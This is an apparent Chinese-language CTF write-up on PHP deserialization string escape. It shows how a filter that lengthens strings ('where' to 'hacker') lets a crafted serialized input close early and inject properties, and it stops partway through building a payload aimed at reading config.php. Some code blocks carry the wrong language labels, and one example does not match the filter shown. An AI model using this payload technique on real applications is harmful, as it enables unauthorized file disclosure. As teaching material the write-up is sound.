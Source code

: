 正常反序列化

```cobol
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}';
var_dump(unserialize($b));
 
输出
 
 
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(4) "defg" } 
```

那我们经过构造呢

```cobol
<?php
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:5:"itest";}i:2;s:4:"defg";}';
var_dump(unserialize($b));
?>
 
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(5) "itest" } 
```

发现最后一个被挤出去了 因为 我们通过 ;} 进行了闭合

接下来我们理解一下参数固定我们要如何实现

就拿这个题目

```php
	public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);
 
		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
```

这里过滤函数中存在 一个 where （5个字符） 替换 hacker（6个字符）

那么其实实际输入的 是 5个字符 但是被替换为6个 序列化就会平白无故多出来一个字符

```css
32 pppppppppppppppp";i:1;s:2:"30";}
经过替换后
32 wwwwwwwwwwwwwwwwwwwwwwwwwwwwwwww
```

这里就很明确了 我们只输入了 前面的p  但是因为就32位 并且p变为了两个w

所以就会让后面的值 覆盖掉下一个

这里我们就可以开始构造了

首先确定我们需要的字符长度

```css
";s:5:"photo";s:10:"config.php";}
```

